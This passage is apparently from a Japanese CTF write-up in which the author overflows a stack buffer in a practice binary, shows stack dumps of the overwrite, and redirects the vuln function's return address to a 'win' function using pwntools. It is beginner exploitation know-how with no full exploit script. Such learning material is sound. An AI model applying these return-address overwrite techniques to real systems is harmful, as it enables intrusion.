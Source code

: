```
0x00007ffdb5c8e7a0 | 0x0000000000000000 |
                   +--------------------+
0x00007ffdb5c8e7a8 | 0x00007f4c06ef5190 |
                   +--------------------+
0x00007ffdb5c8e7b0 | 0x00007ffdb5c8e7c0 | <-- saved rbp (vuln)
                   +--------------------+
0x00007ffdb5c8e7b8 | 0x000000000040084e | <-- return address (vuln)
                   +--------------------+
0x00007ffdb5c8e7c0 | 0x0000000000400ad0 | <-- saved rbp (main)
                   +--------------------+
0x00007ffdb5c8e7c8 | 0x00007f4c06d01bbb | <-- return address (main)
                   +--------------------+
0x00007ffdb5c8e7d0 | 0x00007f4c06e914d8 |
                   +--------------------+
0x00007ffdb5c8e7d8 | 0x00007ffdb5c8e8a8 |
                   +--------------------+

Input: 000000000000000000000000000000000

   [ Address ]           [ Stack ]
                   +--------------------+
0x00007ffdb5c8e790 | 0x3030303030303030 | <-- buf
                   +--------------------+
0x00007ffdb5c8e798 | 0x3030303030303030 |
                   +--------------------+
0x00007ffdb5c8e7a0 | 0x3030303030303030 |
                   +--------------------+
0x00007ffdb5c8e7a8 | 0x3030303030303030 |
                   +--------------------+
0x00007ffdb5c8e7b0 | 0x00007ffdb5c80a30 | <-- saved rbp (vuln)
                   +--------------------+
0x00007ffdb5c8e7b8 | 0x000000000040084e | <-- return address (vuln)
                   +--------------------+
0x00007ffdb5c8e7c0 | 0x0000000000400ad0 | <-- saved rbp (main)
                   +--------------------+
0x00007ffdb5c8e7c8 | 0x00007f4c06d01bbb | <-- return address (main)
                   +--------------------+
0x00007ffdb5c8e7d0 | 0x00007f4c06e914d8 |
                   +--------------------+
0x00007ffdb5c8e7d8 | 0x00007ffdb5c8e8a8 |
                   +--------------------+
```
入力がbufを超えて他のデータまで書き換えていることが分かる。（ちなみに30とは0のasciiコードである0x30）
なるほどこれはわかりやすい。
0x400861にあるwinを呼び出せば勝ちらしいのでvulnのreturnアドレスを書き換えればvulnに戻るときにwinに跳べるはず（これが一発で分かるだけでも一年前より成長した気がする）
それには値をよしなに変える必要がある。もしvulnのrbpを破壊せずにreturn addressを書き換えるならascii範囲外のデータを与える必要がある。（結局必要なかったけど）
困っているとどうやらpwntoolsなるものがあるらしい。
これならバイナリデータをそのままぶちこむことができる。
最初から最後まで自動化できるしなるほどこれは便利。

こうしてreturn addressだけを書き換えることはできた。
```
                   +--------------------+
0x00007ffeed69c960 | 0x00007ffeed69c970 | <-- saved rbp (vuln)
                   +--------------------+
0x00007ffeed69c968 | 0x0000000000400861 | <-- return address (vuln)
                   +--------------------+
0x00007ffeed69c970 | 0x0000000000400ad0 | <-- saved rbp (main)
                   +--------------------+
0x00007ffeed69c978 | 0x00007fee2cb27b97 | <-- return address (main)
                   +--------------------+
```
